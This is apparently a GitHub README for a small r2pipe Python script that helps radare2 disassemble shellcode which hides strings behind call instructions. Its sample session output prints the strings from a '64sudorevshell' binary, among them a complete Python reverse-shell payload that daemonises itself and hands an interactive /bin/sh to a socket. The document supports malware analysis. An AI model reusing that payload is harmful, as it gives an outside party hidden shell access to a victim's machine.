 # call_trick_r2pipe

Are you using radare for reversing or debugging a shellcode/malware with a lot of call tricks for strings like these:

```
call @f
db "string1",0
@f:
more code
call @g:
db "string2",0
@g:
more code
```

Try this r2pipe (https://www.radare.org/n/r2pipe.html) script to fix disasm:
 ```
# Python 3.6, run inside r2 session: #!pipe python3 poc.py

import r2pipe

r2 = r2pipe.open()
r2.cmd('aaaa')
print(r2.cmd("izz"))
for e in r2.cmdj("izzj"):
       if e['type'] == "ascii" and e['section'] == ".text":
               csa = f"Csa {e['size']} @ { e['vaddr']}"
               print(csa)
               r2.cmd(csa)
```

This script search all C-STRING-STYLE in .text section and mark each one like string 

Just use this script with "#!pipe python3 poc.py" command inside your r2 session:
```
dreg@fr33project:~# r2 64sudorevshell
[0x00401000]> #!pipe python3 poc.py

[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[Strings]
nth paddr      vaddr      len size section   type  string
---------------------------------------------------------
0   0x0000105a 0x0040105a 524 525  .text     ascii exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((str(0x7f000001),9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")
1   0x00001274 0x00401274 11  12   .text     ascii /bin/python
2   0x000012b7 0x004012b7 9   10   .text     ascii /bin/sudo
3   0x00001479 0x00000001 18  19   .strtab   ascii 64sudorevshell.asm
4   0x0000148c 0x00000014 6   7    .strtab   ascii parent
5   0x00001493 0x0000001b 5   6    .strtab   ascii child
6   0x00001499 0x00000021 4   5    .strtab   ascii arg3
7   0x000014a2 0x0000002a 4   5    .strtab   ascii arg2
8   0x000014ab 0x00000033 4   5    .strtab   ascii arg1
9   0x000014b0 0x00000038 4   5    .strtab   ascii drgs
10  0x000014b9 0x00000041 6   7    .strtab   ascii end_sc
11  0x000014c0 0x00000048 11  12   .strtab   ascii __bss_start
12  0x000014cc 0x00000054 6   7    .strtab   ascii _edata
13  0x000014d3 0x0000005b 4   5    .strtab   ascii _end
14  0x000014d9 0x00000001 7   8    .shstrtab ascii .symtab
15  0x000014e1 0x00000009 7   8    .shstrtab ascii .strtab
16  0x000014e9 0x00000011 9   10   .shstrtab ascii .shstrtab
17  0x000014f3 0x0000001b 18  19   .shstrtab ascii .note.gnu.property
18  0x00001506 0x0000002e 5   6    .shstrtab ascii .text


Csa 525 @4198490
Csa 12 @4199028
Csa 10 @4199095
[0x00401000]>
```

# Before

![alt text](before.png)

# After

![alt text](after.png)

Greetz to Maijin for hints in #radare channel
           


